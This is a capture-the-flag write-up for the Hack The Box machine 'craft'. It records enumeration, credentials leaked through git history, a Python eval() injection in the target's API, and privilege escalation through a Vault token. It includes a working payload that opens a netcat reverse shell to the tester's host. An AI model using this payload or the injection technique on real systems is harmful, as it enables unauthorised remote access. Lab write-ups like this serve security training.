

# craft : `10.10.10.110`

**Table Of Contents:**

<!-- TOC -->

- [craft : `10.10.10.110`](#craft--101010110)
  - [Credentials](#credentials)
  - [Synopsis](#synopsis)
  - [Enumeration](#enumeration)
    - [Opened Ports](#opened-ports)
  - [FootHold](#foothold)
  - [Lateral Movement](#lateral-movement)
  - [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->

## Credentials


| Service | Username |    Password    |
| :-------: | :--------: | :--------------: |
|  gogs  |  dinesh  | 4aUh0A8PbVJxgd |
|  mysql  |  craft  | qLGockJ6G2J75O |
|  gogs  | ebachman | llJ77D8QFkLPQB |
|  gogs  | gilfoyle | ZEU3N8WNM2rh4T |

---

## Synopsis

---

## Enumeration

### Opened Ports

- [ ] 22 (SSH)
- [ ] 443 (HTTPS)

---

## FootHold

- On the https webserver, there was two link given to check for which are `api.craft.htb` and `gogs.craft.htb`.
- On the `api.craft.htb`, a craft api was hosted which was dealing with some endpoints.
- On the `gogs.craft.htb`, gogs was hosted which is a self hosted git service.
- The source code of `api.craft.htb` was on gogs. We need a token to send request to api endpoints.
- Found a json web token but it was false.
- Extracted credentials from the commit history.

  ```bash
  ┌──(ircashem)㉿(10.10.14.16)──[~/HackTheBox/craft/craft-api]
  └─$ git show a2d28ed1554adddfcfb845879bfea09f976ab7c1
  commit a2d28ed1554adddfcfb845879bfea09f976ab7c1
  Author: dinesh <dinesh@craft.htb>
  Date:   Wed Feb 6 23:18:51 2019 -0500

      Cleanup test

  diff --git a/tests/test.py b/tests/test.py
  index 40d5470..9b0e2e2 100644
  --- a/tests/test.py
  +++ b/tests/test.py
  @@ -3,7 +3,7 @@
   import requests
   import json

  -response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
  +response = requests.get('https://api.craft.htb/api/auth/login',  auth=('', ''), verify=False)
   json_response = json.loads(response.text)
   token =  json_response['token']
  ```
- Noticed that eval("%s ") is being used in the code which is really really dangerous 🗡.

  
- Got rce, but can't get reverse shell. Tried wget, bash reverse shell. Looks like we can't pass pipe (|) over there in the param.
- Payload Worked: `__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.16 9009 >/tmp/f')#`
- Extracted credential from settings.py and also modified `dbtest.py` to extract user's credential from database. Tried ssh but failed. 🙅
- Login to the gogs.craft.htb and noticed a private repo for gilfoyle in which private id_rsa key is saved.
- Logged in via ssh to gilfoyle 🎊

---

## Lateral Movement

---

## Privilege Escalation

- Vaulttoken is in the home folder. SSH into the box with that creds.

```bash
┌─[gilfoyle@craft]─[~]                                                                                                                 
└──╼ $vault ssh root@10.10.10.110                                                                                                      
```